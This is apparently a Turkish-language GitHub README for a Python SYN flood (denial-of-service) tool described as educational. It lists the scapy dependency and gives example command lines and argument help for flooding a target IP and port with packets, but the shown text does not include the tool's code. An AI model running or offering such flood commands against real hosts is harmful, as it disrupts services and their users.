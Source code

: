# Python2/3-SYN-Flood-Attack-Tool



Python SYN Flood Attack Tool

Bu script egitim amacli yazilmistir.


## Pluginler
```

apt install python3-scapy
```

## Kurulum

```

cd ddos
```

## Kullanimi

```
python3 ddos.py -t 10.20.30.40 -p 8080 -c 5
python3 synflood.py

```
```
usage: ddos.py [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets
  --version, -v         show program's version number and exit

kullanim: python3 ddos.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://github.com/nihilwyd)

